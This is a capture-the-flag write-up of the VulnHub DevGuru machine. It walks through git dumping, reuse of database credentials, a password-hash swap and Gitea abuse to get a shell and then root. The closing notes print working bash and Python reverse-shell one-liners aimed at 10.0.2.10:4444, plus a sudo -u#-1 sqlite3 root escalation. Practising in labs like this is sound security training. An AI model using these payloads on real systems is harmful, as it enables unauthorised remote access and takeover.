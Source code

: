 ```yaml
---
title: Devguru
categories: [VulnHub]
tags: [CMS, PrivEsc, Public Exploit, git, gitea, Password Generate, sudo exploit, OCTOBER CMS]
image:
  path: https://guyintheclouds.com/banner/devguru-vulnhub.png
  alt: Devguru Machine 📚
---
```


## **Description ⤵️**

>💡 [DevGuru](https://vulnhub.com/entry/devguru-1,620/) is a fictional web development company hiring you for a pentest assessment. You have been tasked with finding vulnerabilities on their corporate website and obtaining root.
>
>OSCP like ~ Real life based
>
>**Difficulty:** *Intermediate* (Depends on experience)
{: .prompt-info }


### **Let’s find the IP Address first >>**

![130-1.png](/Vulnhub-Files/img/Devguru/130-1.png)

```bash
IP : 10.0.2.26
```
{: .nolineno}

## Port Scan Results ➡️

![131-1.png](/Vulnhub-Files/img/Devguru/131-1.png)

![131-2.png](/Vulnhub-Files/img/Devguru/131-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
8585 unknown
```
{: .nolineno}

---

## Web Enumeration ⤵️

I checked port 80 and I got this static webpage.

![132-1.png](/Vulnhub-Files/img/Devguru/132-1.png)

After that I checked port 8585 and I got a gitea page, whose version is `Gitea Version 1.12.5`.

![132-2.png](/Vulnhub-Files/img/Devguru/132-2.png)

Now lets look into the directory traversal files / directories from feroxbuster and ffuf Tool →

![134-1.png](/Vulnhub-Files/img/Devguru/134-1.png)

![134-2.png](/Vulnhub-Files/img/Devguru/134-2.png)

I also looked into searchsploit for anyt public exploit for this `gitea` version.

![132-3.png](/Vulnhub-Files/img/Devguru/132-3.png)

Since it needs Authentication So I Have to find the username and the password to get the access →

![132-4.png](/Vulnhub-Files/img/Devguru/132-4.png)

Lets use nikto also →

![132-5.png](/Vulnhub-Files/img/Devguru/132-5.png)

Since I have gitea that also means that I would also have `.git` directory as that can I also be seen in `nikto` Tool scan above so lets take a look into it.

![132-6.png](/Vulnhub-Files/img/Devguru/132-6.png)

Now we have .git as a directory so its time to extract some git directories with the help of `git-dumper` →

![132-7.png](/Vulnhub-Files/img/Devguru/132-7.png)

Now lets recon further →

Data → `/git-dump/config/databases.php` →

![132-8.png](/Vulnhub-Files/img/Devguru/132-8.png)

```bash
'database'   => 'octoberdb',
'username'   => 'october',
'password'   => 'SQ66EBYx4GT3byXH'
While opening the git-dump directory I found → adminer.php →
```
{: .nolineno}

I used this above info to login into the phpmyadmin site like this.

![132-9.png](/Vulnhub-Files/img/Devguru/132-9.png)

After using that credentials I got this →

![132-10.png](/Vulnhub-Files/img/Devguru/132-10.png)

I then cracked this password hash with is in bcrypt from online random site and I did not able to crack it.

![132-11.png](/Vulnhub-Files/img/Devguru/132-11.png)

Now As I have access to the database to lets change the password hash according to my password and I will be using password as `password` here from http://brypt-generator.com site →

![132-12.png](/Vulnhub-Files/img/Devguru/132-12.png)

>Lets replace the password and saving it,Now I can Logged in with `frank → password` cred.
{: .prompt-tip }

Now coming back the main site lets login with `frank → password` cred and I can see OCTOBER CMS.

![132-13.png](/Vulnhub-Files/img/Devguru/132-13.png)

I got a reverse shell for october cms →

![132-14.png](/Vulnhub-Files/img/Devguru/132-14.png)

![132-15.png](/Vulnhub-Files/img/Devguru/132-15.png)

When I saved the code I loaded the site and I got this →

![132-16.png](/Vulnhub-Files/img/Devguru/132-16.png)

After some enumeration I found this → on `/var/backups/app.ini.bak` →

![132-17.png](/Vulnhub-Files/img/Devguru/132-17.png)

Now I have the credentials of gitea for mysql services lets use it similar as we did before →

```bash
username → gitea
password → UfFPTF8C8jjxVF2m
```
{: .nolineno}

![132-18.png](/Vulnhub-Files/img/Devguru/132-18.png)

![132-19.png](/Vulnhub-Files/img/Devguru/132-19.png)

with this I got in →

![132-20.png](/Vulnhub-Files/img/Devguru/132-20.png)

Now lets use that exploit →

![132-21.png](/Vulnhub-Files/img/Devguru/132-21.png)

The Exploit was not working so lets use the mannual code execution →

![132-22.png](/Vulnhub-Files/img/Devguru/132-22.png)

![132-23.png](/Vulnhub-Files/img/Devguru/132-23.png)

![132-24.png](/Vulnhub-Files/img/Devguru/132-24.png)

Now lets edit and commit any file so I choose [README.md](http://readme.md/) file →

![132-25.png](/Vulnhub-Files/img/Devguru/132-25.png)

![132-26.png](/Vulnhub-Files/img/Devguru/132-26.png)

![132-27.png](/Vulnhub-Files/img/Devguru/132-27.png)

Now I got it →

![133-1.png](/Vulnhub-Files/img/Devguru/133-1.png)

![133-2.png](/Vulnhub-Files/img/Devguru/133-2.png)

```bash
user.txt → 22854d0aec6ba776f9d35bf7b0e00217
```
{: .nolineno}

Now lets check the `*sudo -l*` further and I got this →

![133-3.png](/Vulnhub-Files/img/Devguru/133-3.png)

lets use it →

```bash
command →
`sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash`
```
{: .nolineno}

![133-4.png](/Vulnhub-Files/img/Devguru/133-4.png)

![133-5.png](/Vulnhub-Files/img/Devguru/133-5.png)

```bash
root.txt → 96440606fb88aa7497cde5a8e68daf8f
```
{: .nolineno}

![133-6.png](/Vulnhub-Files/img/Devguru/133-6.png)

<hr>

# **Summery Notes →**

1. Git enumeration with git-dumper and executing the reverse shell was on good path.
2. I enjoyed the swaping of the password method from mysql .
3. I got to know about october CMS and its reverse shell code .
4. Also about the sudo vulnerability part ←

**october CMS reverse shell code -->**

```bash
function onstart(){    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.10/4444 0>&1'");}
```
{: .nolineno}

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}

**root →**

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash -i'
```
{: .nolineno}

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
